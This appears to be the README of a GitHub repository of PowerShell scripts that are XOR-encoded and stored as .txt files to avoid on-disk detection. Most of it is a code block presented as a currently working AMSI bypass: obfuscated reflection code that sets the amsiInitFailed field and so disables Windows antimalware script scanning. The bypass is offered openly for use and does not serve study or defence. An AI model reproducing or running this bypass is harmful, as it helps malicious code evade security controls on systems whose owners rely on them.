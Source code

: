 # PS-Scripts-Obfuscated
Powewrshell scripts xor encoded and convereted to .txt to avoid on disk detction. 


## The below is currently a working AMSI bypass.   
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```
